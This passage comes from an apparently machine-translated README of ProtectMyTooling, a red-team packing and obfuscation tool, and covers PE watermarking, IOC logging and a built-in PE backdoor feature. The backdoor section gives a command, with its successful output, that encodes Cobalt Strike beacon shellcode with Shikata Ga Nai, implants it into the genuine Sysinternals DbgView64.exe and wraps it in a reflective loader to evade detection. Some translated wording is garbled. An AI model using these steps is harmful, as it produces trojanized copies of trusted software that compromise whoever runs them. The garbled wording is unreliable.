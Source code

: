```
                        Append watermark to the file's Overlay (at the end of the file).
  -s NAME,STR, --section NAME,STR
                        Append a new PE section named NAME and insert watermark there. Section name must be shorter than 8 characters. Section will be marked Read-Only, non-executable. 
```

目前只支持 PE 文件水印，但在未来的办公文档和其他格式也将被添加。

### IOCs 集合

可以通过简单地使用`ProtectMyTooling`运行中的`-i`选项来收集 IOC。

它们在以下阶段收集:

*   在输入文件上
*   在对中间文件的每一轮模糊处理之后
*   在最终输出文件中

它们将包含以下以 CSV 文件形式保存的字段:

*   `timestamp`
*   `filename`
*   `author`–形成为`username@hostname`
*   `context`–记录是否指向输入、输出或中间文件
*   `comment`–用户通过`-I value`选项调整的值
*   `md5`
*   `sha1`
*   `sha256`
*   `imphash`–PE 导入哈希(如果可用)
*   【托多】-。NET TypeRef 哈希(如果有)

结果将是一个名为`outfile-ioc.csv`的 CSV 文件，与生成的输出工件并排存储。该文件以追加模式写入，这意味着它将接收所有后续的 IOC。

## red back door-内置 PE 后门

`ProtectMyTooling`利用我自己的`RedBackdoorer.py`脚本，它提供了一些后门 PE 可执行文件的方法。一个名为`backdoor`的专用打包器提供了支持。示例用法:

**获取输入的 Cobalt Strike 外壳代码，用 SGN (Shikata Ga-Nai)编码，然后后门 SysInternals DbgView64.exe，然后生成 Amber EXE 反射加载程序**

```
PS> py ProtectMyTooling.py sgn,backdoor,amber beacon64.bin dbgview64-infected.exe -B dbgview64.exe

    Red Team implants protection swiss knife.

    Multi-Packer wrapping around multitude of packers, protectors, shellcode loaders, encoders.
    Mariusz Banach / mgeeky '20-'22, <mb@binary-offensive.com>
    v0.16

[.] Processing x64 file :  beacon64.bin
[>] Generating output of sgn(<file>)...
[>] Generating output of backdoor(sgn(<file>))...
[>] Generating output of Amber(backdoor(sgn(<file>)))...

[+] SUCCEEDED. Original file size: 265959 bytes, new file size Amber(backdoor(sgn(<file>))): 1372672, ratio: 516.12% 
```
